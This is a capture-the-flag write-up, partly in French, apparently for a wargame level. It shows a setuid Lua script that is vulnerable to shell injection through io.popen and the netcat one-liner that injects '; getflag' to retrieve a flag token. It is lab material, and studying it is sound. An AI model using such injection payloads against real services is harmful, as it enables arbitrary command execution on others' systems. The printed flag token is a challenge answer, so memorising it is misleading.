 # level11

```bash
$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
$ cat level11.lua
```

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

La faille de sécurité du script Lua réside dans l'utilisation de `io.popen` avec une commande `echo` non sécurisée, permettant l'injection de commandes arbitraires.

```bash
$ nc localhost 5151
Password: getflag
Erf nope..
$ echo '; getflag > /tmp/flag11' | nc localhost 5151; cat /tmp/flag11
Password: Erf nope..
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

